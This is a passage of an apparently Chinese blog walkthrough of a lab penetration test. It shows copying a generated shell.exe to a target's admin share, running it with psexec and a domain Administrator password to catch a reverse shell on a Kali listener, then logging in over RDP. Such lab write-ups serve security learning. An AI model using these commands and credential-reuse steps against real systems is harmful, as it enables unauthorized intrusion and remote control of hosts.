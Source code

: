 ![](https://upload-images.jianshu.io/upload_images/7216746-ff6a28d9bd35464f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用copy命令将先前生成的shell.exe拷贝至靶机C盘

```
copy shell.exe \\192.168.141.111\c$
```

![](https://upload-images.jianshu.io/upload_images/7216746-96e53ba1fe9afbad.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![](https://upload-images.jianshu.io/upload_images/7216746-4d7c5d6618b8973e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在kali上开启监听(6666端口)，使用psesec.exe.启动靶机上的shell.exe

[图片上传中...(image.png-adcd51-1542020102649-0)]


```
psexec.exe \\192.168.141.111 -u hiro\Administrator -p hb123456,./$ c:\\shell.exe
```

![](https://upload-images.jianshu.io/upload_images/7216746-ad42da32db35d329.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


成功获取shell

![](https://upload-images.jianshu.io/upload_images/7216746-528460880f398671.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

打开一号机3389

![](https://upload-images.jianshu.io/upload_images/7216746-9825f280dc8352be.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用用户名:hiro\Administrator 密码: hb123456,./$登录

![](https://upload-images.jianshu.io/upload_images/7216746-f44a435c1f05c2ff.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
